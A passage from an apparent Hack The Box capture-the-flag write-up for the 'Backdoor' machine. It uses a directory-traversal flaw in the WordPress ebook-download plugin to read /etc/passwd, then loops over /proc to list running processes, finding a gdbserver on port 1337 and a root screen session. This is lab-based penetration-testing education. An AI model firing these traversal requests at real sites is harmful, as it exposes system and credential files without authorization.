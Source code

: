 ```php
```

That works, let's grab passwd:

```sh
┌──(root💀kali)-[~/htb/backdoor]
└─# curl http://backdoor.htb//wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
<SNIP>
user:x:1000:1000:user:/home/user:/bin/bash
```

## Spying On Processes

That also works and we see just root and user as accounts we might be interested in.

In the earlier nmap scan we saw port 1337 was open. With the ability to read arbitrary files we can check out /proc and see what processes are running on the box. [This](https://man7.org/linux/man-pages/man5/proc.5.html) explains more on how the /proc pseudo-filesystem works.

I used a simple loop to incrementally check /proc:

```sh
┌──(root💀kali)-[~/htb/backdoor]
└─# for i in {800..900}; do curl -s http://backdoor.htb//wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/$i/cmdline --output - | tr '\000' ' '| sed 's/<script>window.close()<\/script>/\n/g';  done
/proc/800/cmdline/proc/800/cmdline/proc/800/cmdline
/proc/801/cmdline/proc/801/cmdline/proc/801/cmdline
/proc/802/cmdline/proc/802/cmdline/proc/802/cmdline
/proc/803/cmdline/proc/803/cmdline/proc/803/cmdline
/proc/804/cmdline/proc/804/cmdline/proc/804/cmdline
/proc/805/cmdline/proc/805/cmdline/proc/805/cmdline
/proc/806/cmdline/proc/806/cmdline/proc/806/cmdline
/proc/807/cmdline/proc/807/cmdline/proc/807/cmdline
/proc/808/cmdline/proc/808/cmdline/proc/808/cmdline
/proc/809/cmdline/proc/809/cmdline/proc/809/cmdline
/proc/810/cmdline/proc/810/cmdline/proc/810/cmdline
/proc/811/cmdline/proc/811/cmdline/proc/811/cmdline
/proc/812/cmdline/proc/812/cmdline/proc/812/cmdline/usr/sbin/atd -f 
/proc/813/cmdline/proc/813/cmdline/proc/813/cmdline
/proc/814/cmdline/proc/814/cmdline/proc/814/cmdline/bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \;; done 
/proc/815/cmdline/proc/815/cmdline/proc/815/cmdline/bin/sh -c while true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done 
/proc/816/cmdline/proc/816/cmdline/proc/816/cmdline
/proc/817/cmdline/proc/817/cmdline/proc/817/cmdline
/proc/818/cmdline/proc/818/cmdline/proc/818/cmdline
<SNIP>
```

We find two interesting things. Port 1337 is running gdbserver, which is our path to getting a foothold. We can also see screen is running with a detached session, we'll come back to that later.
